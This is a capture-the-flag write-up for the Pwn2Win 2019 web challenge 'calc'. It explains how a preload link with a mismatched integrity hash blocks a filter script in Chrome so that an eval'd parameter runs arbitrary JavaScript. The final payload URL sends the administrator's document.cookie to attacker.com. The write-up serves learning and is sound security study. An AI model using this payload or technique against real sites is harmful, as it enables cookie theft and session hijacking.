 # Pwn2Win CTF 2019: calc

**Category:** Web
**Points:** 500
**Solves:** 0

> Our researchers found out a web interface used by Sophia to run complex calculations. Can you find a way to get the administrator's cookies?
>
> http://165.227.115.65/
>
> The administrator is using HeadlessChrome/79.0.3945.0.

## Write-up
 
### How it works?

The challenge's website is concise and you don't have much to work on:

1. There is a place to report a link to the administrator (which must be prefixed with http://165.227.115.65/ - the challenge's IP).
2. There is a `calc` parameter which is being filtered by an external script file (which is same-origin to the challenge's page) and then is being eval'd.
3. There is a `xss` parameter that is being reflected at the end of the body.
4. The server uses a strict CSP, which doesn't allow you to use the injection to do much.

### Digging deeper

By looking into the external script file, it is possible to notice that the `calc` parameter is being filtered as soon as the DOM is loaded and only numbers, +, - are being allowed. The length of characters is also limited to 100.

```javascript
window.addEventListener('DOMContentLoaded', () => {
    let regex = /[^0-9\+\-]+/;
    if (calc.length > 100) calc = "1337";
    calc = calc.replace(/ /g, "+");
    if (regex.test(calc)) calc = "1337";
});
```
Also, by checking the script on the main page, you can see the parameter is only executed after the page is fully loaded - meaning that it will only be eval'd after the external script has a chance to filter the input it got from the `calc` parameter.

```javascript
let calc = new URL(location).searchParams.get("calc") || "1337";
onload = () => {
    alert(eval(calc));
}
```

After this assessment, one of the realizations is that if you are able to block the external script from loading, you can execute arbitrary javascript.

### Prior research

There has been some research on the subject of selectively blocking subresources (https://www.reddit.com/r/Slackers/comments/c1mpmq/selectively_blocking_subresources_when_xss/). 

But none of these prior researches would work in the context of this challenge.

The intended solution required you to find a way to block subresources that were being loaded after the injection point by only using HTML injection.

### Features created for good (or bad)

Before Chrome 77, it was not possible to do the preload of subresources that did an SRI verification without doing a double download of the same resource.

On Chrome 77, a new feature (https://www.chromestatus.com/feature/4967277059375104) was released which started allowing and honoring the integrity attribute on preload links.

It solved the problem of the double download, but created a new "problem" - if the hash on the integrity attribute doesn't match the real hash of the subresource, it will be blocked from loading :)

### Payload

Knowing that it gets easy to construct a payload that will allow executing arbitrary javascript and stealing the administrator's cookies:

```
http://165.227.115.65/?xss=<link+rel=preload+as=script+integrity=sha256-1+href=filter.js>&calc=location=`//attacker.com/?${document.cookie}`
```

## Flag

```CTF-BR{s3l3c71v3_bl0ck1ng++}```

## Contact

If you have any questions feel free to contact me on [@lbherrera_](https://twitter.com/lbherrera_)
